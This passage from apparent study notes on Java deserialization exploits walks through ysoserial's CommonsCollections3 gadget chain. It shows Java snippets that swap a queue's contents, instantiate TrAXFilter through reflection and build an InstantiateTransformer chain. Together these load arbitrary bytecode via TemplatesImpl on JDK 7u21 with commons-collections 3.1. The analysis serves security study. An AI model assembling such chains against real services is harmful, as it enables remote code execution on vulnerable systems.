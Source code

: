 ```java
  
// switch contents of queue  
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");  
queueArray[0] = templates;  
queueArray[1] = 1;

return queue;
```


### CommonCollections3

> A variant of CC1, replace `InvokerTransformer` by `InstantiateTransformer`


> [!NOTE] pre-requirements
> JDK <= 7u21, reproduce on jdk7u21
> commons-collections:commons-collections:3.1

As [[Java Deserialize Vulnerabilities ysoserial study#TemplatesImpl exploit|this section]] presents, `TemplatesImpl`'s `newTransformer` exposes an approach to loading arbitrary byte code.

Seek for reference of `TemplatesImpl`'s `newTransformer` method, find in `TrAXFilter`'s constructor:
```java
public TrAXFilter(Templates templates)  throws  
    TransformerConfigurationException  
{  
    _templates = templates;  
    _transformer = (TransformerImpl) templates.newTransformer();  
    _transformerHandler = new TransformerHandlerImpl(_transformer);  
    _useServicesMechanism = _transformer.useServicesMechnism();  
}
```

Immediately after [[Java Deserialize Vulnerabilities ysoserial study#Proof of Concept|this code section]], proof concept above by code below:
```java
...
Class cls = com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class;  
Constructor constructor = cls.getDeclaredConstructor(Templates.class);  
constructor.setAccessible(true);  
constructor.newInstance(templates); // templates is TemplatesImpl type
```

This routine can be translated into the form of transformers, by introducing `InstantiateTransformer`:
```java
final Transformer[] transformers = new Transformer[] {  
      new ConstantTransformer(TrAXFilter.class),  
      new InstantiateTransformer(  
            new Class[] { Templates.class },  
            new Object[] { templates } )};
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)